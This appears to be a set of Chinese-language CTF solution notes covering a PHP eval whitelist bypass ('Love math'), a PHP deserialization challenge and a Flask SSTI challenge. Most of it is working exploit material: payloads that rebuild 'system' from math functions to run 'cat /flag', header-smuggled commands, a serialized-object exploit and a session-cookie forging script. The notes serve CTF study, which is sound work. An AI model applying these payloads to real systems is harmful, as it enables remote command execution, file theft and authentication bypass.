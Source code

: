 

## Love math

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

* 动态函数
php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数
例如：`$function = "sayHello";$function();`

* php中函数名默认为字符串
例如本题白名单中的asinh和pi可以直接异或，这就增加了构造字符的选择

思路1 --
方法1
```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat%20/flag
```
base_convert(696468,10,36) => "exec"
dechex(1598506324)  => "_GET"
$pi(8768397090111664438,10,30) => "getallheaders" 

方法2 -- getallheaders
burp抓包在Content-Length下一行，不加空行, 将1:cat /flag作为header传入了
Content-Length: 11
1: cat /flag

exec(getallheaders(){1}) //操作xx和yy，中间用逗号隔开，echo都能输出 echo xx,yy

方法3: 强制传参
exp=cat /flag&abs=system&c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){abs}($$pi{exp})
```
base_convert(37907361743,10,36)  => hex2bin
dechex(1598506324)               => 5f474554  即 _GET 的 16进制
($$pi){abs}($$pi{exp})           => $GET['abs']('exp')
```
思路2 --

直接想办法catflag也是可以的

```
//exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
//system('cat'.dechex(16)^asinh^pi) => system('cat *')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
```

思路3 --
前面都是利用白名单的数学函数将数字转成字符串，其实也可以
这是fuzz脚本

```
<?php
$payload = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($k=1;$k<=sizeof($payload);$k++){
    for($i = 0;$i < 9; $i++){
        for($j = 0;$j <=9;$j++){
            $exp = $payload[$k] ^ $i.$j;
            echo($payload[$k]."^$i$j"."==>$exp");
            echo "<br />";
        }
    }
}

```

`http://833b3035-65c8-45f0-aef4-8214e5f05661.node3.buuoj.cn/?c=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20/flag`



# php 反序列化
## [第五空间 2021]pklovecloud
```php
<?php
//include 'flag.php';
class pkshow
{
    function echo_name()
    {
        return "Pk very safe^.^";
    }
}

class acp
{
    protected $cinder;
    public $neutron;
    public $nova;
    function __construct()
    {
        $this->cinder = new pkshow;
    }
    function __toString()
    {
        if (isset($this->cinder))
            return $this->cinder->echo_name();
    }
}

class ace
{
    public $filename;
    public $openstack;
    public $docker;
    function echo_name()
    {
        $this->openstack = unserialize($this->docker);
        $this->openstack->neutron = $heat;
        if($this->openstack->neutron === $this->openstack->nova)
        {
            $file = "./{$this->filename}";
            if (file_get_contents($file))
            {
                return file_get_contents($file);
            }
            else
            {
                return "keystone lost~";
            }
        }
    }
}

if (isset($_GET['pks']))
{
    $logData = unserialize($_GET['pks']);
    echo $logData;
}
else
{
    highlight_file(__file__);
}
?>
```

exp

```php
<?php

class acp
{
    protected $cinder;
    public $neutron;
    public $nova;
    function __construct($cinder){
        $this->nova = &$this->neutron;
        $this->cinder = $cinder;
    }
}

class ace
{
    public $filename = "flag.php";
    public $docker;
    function __construct($docker){
        $this->docker = $docker;
    }
}

echo urlencode(serialize(new acp(new ace(serialize(new acp(""))))));

//$b = serialize(new acp(""));
//$c = new ace($b);
//$d = new acp($c);
//echo urlencode(serialize($d));
```
## NSSCTF prize
# SSTI

## SSTI | 入门 | [FBCTF2019]Event

随便注册进入发现 event_important 存在 ssti注入。

post `event_important=__class__.__init__.__globals__[app].config` 获得secret key

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = b'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'

session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def index():
    print(session_serializer.dumps("admin"))

index()
```

`python exp.py` 得到最终的cookie

在devtools - Application - Cookies 替换user，再访问admin panel